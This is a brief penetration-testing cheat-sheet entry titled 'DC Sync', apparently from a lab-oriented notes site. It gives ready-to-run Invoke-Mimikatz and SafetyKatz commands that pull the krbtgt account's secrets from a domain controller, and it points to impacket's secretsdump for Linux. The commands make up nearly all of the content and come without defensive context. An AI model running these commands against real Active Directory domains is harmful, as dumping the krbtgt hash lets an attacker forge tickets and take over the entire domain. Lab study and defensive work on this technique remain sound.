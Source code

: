 # DC Sync

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"' 

SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
{% endcode %}



## Linux

* Can use `secretsdumper.py` from impacket toolkit
